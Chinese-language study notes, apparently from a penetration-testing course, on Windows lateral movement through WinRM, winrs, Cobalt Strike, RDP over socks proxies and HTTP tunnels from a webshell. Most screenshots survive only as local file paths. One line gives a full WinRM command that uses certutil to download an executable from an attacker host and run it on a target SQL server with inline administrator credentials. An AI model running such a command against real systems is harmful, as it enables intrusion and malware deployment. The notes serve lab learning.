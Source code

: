 1、win 2012之前利用需要手动开启winRM ，在win 2012之后(包括win 2012)的版本是默认开启的， 

2、防火墙对5986、5985端口开放。

9min    先扫端口是否开放   5986、5985 （这里最好还是先提到system，在扫5985端口情况）

![1733135556613](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1733135556613.png)

小插曲：

需要先开启WinRM服务：

![1733136365631](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1733136365631.png)

winrs执行远程命令：

![1733136408276](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1733136408276.png)

20min 解决cs上执行WinRM报错（cs不支持交互式），换一种执行方式。

![1733136693156](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1733136693156.png)

用cs自带的插件运行也报错：

![1733136825756](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1733136825756.png)

换了一种方式执行：

![1733136917715](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1733136917715.png)

防火墙：

![1733141575985](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1733141575985.png)

25min  反向

![1733142490112](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1733142490112.png)

35 演示反向--------web站点（web机没有开web服务）  sql机打开防火墙：（入站拦截，出站不拦截）：

转发上线-----监听----用刚才的shell winrm invoke Create wmicimv2/win32_process @{CommandLine="cmd.exe /c certutil -urlcache -split -f http//192.168.3.31/4444.exe 4444.exe & 4444.exe"} -r:sqlserver -u:sqlserver\administrator -p:admin!@#45       执行上线

### RDP 

远程终端连接服务

对方开启RDP服务 3389 端口          远程桌面

44min            还是socks代理，设置好后可以用mstac连接

![1733145385480](E:\新建文件夹\新建文件夹\typora学习笔记软件\缓存\1733145385480.png)

连52min  隧道（http），这里是用冰鞋上传的后门建立的http隧道，实现内网穿透，将目标的3389远程终端连接端口映射到本地，不过这里需要的流量太大，冰鞋支持不了。其他的方法：frp,nps，iox等方法都需要上传到目标机，所以还是选用http隧道。
